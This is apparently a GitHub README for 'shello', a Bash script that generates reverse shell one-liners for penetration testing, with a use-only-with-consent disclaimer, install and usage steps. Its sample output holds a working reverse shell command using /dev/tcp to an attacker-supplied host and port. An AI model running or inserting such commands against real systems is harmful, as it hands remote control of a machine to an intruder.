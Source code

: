 # shello
A small script to generate reverse shells.

![image](https://user-images.githubusercontent.com/63207324/210773410-1e0baa45-187e-4955-8ed1-ed390951296f.png)

### Disclaimer:
This tool is only for testing and academic purposes and can only be used where strict consent has been given. Do not use it for illegal purposes! It is the end user’s responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this tool and software.

### Installation:

```shell
$ wget https://raw.githubusercontent.com/Yuma-Tsushima07/shello/main/shello.sh
$ chmod +x shello.sh
```

### Useage:

```shell
$ ./shello.sh
```
Choose a reverse shell which you want then specify your `LHOST` and `LPORT`:
![image](https://user-images.githubusercontent.com/63207324/210773593-ab49d902-d61d-452d-b650-c7575da3c266.png)

```sh
[+] Select an Option:  1

[ + ] Enter LHOST:   10.10.10.10

[ + ] Enter LPORT:  9001

[*] Your Bash-i Shell:  
sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
```

